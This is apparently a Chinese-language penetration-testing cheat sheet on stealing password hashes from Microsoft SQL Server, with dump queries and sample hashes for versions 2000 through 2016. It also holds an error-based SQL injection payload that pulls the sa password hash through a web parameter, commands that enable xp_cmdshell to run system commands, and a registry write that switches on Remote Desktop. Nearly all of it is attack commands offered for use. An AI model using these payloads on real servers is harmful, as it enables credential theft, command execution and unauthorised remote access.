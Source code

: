 # 窃取MSSQL各版本密码HASH

MSSQL使用自制的密码哈希算法对用户密码进行哈希，在内网渗透中，大多数服务口令都是一样的，收集MSSQL数据库的用户和密码可能会有用。

### MSSQL各版本密码HASH

#### MSSQL 2000

```mssql
select name,password from master.dbo.sysxlogins 

Hash格式: 
0x0100(固定) + 8位key＋40位HASH1 +40位HASH2
0x0100AC78A243F2E61FA800A7231C501D49CDA5B93A8A2294DC68AE487C99233F245F86A9ED5749F1838021EE1610
```

#### MSSQL 2005

```mssql
select name,password_hash from sys.sql_logins

Hash格式：
0x0100(固定) ＋8位key＋ 20位HASH1 + 20位HASH2 
0x01004086CEB698DB9D0295DBF84F496FDDCECADE1AE5875EB294
```

#### MSSQL 2008 R2

```mssql
select name,password_hash from sys.sql_logins where name = 'sa'

Hash格式：
0x0100(固定) ＋8位key＋ 20位HASH1 + 20位HASH2 
0x0100A9A79055CACB976F1BE9405D2F7BE7B2A98003007978F821
```

#### MSSQL 2012 R2

```mssql
select name,password_hash from sys.sql_logins

0x02009B23262ECB00E289977FA1209081C623020F2D28E23B5C615AC7BA8C0F25FEE638DC2E4DEAF023350C1E31199364879A94D65FC79F10BB577D6CB86A8C7148928DC8AFFB
```

#### SQL SERVER 2016

```mssql
select name,password_hash from sys.sql_logins 

0x02002F8E6FBBE1B6A9961A7E397FDD3A26F795DF806A066940B26323BE89F3450064C8657C75E2A3729E8318BBE91692335F4D2F5633BADEF7A25EC8AC003E9C4DB342312505
```

### SQL注入获取sa账号密码

#### 报错注入

```mssql
?Keyword=1111%' AND (Select  master.dbo.fn_varbintohexstr(password) from master.dbo.sysxlogins where name='sa')=1 AND '%'='
```

#### 数据库执行系统命令

```mssql
#开启xp_cmdshell存储过程
EXEC master..sp_configure 'show advanced options', 1;RECONFIGURE;EXEC master..sp_configure 'xp_cmdshell', 1;RECONFIGURE;

#利用xp_cmdshell执行系统命令
Exec master.dbo.xp_cmdshell ''

#SQL语句开启远程
Exec master.dbo.xp_regwrite'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',0;
```

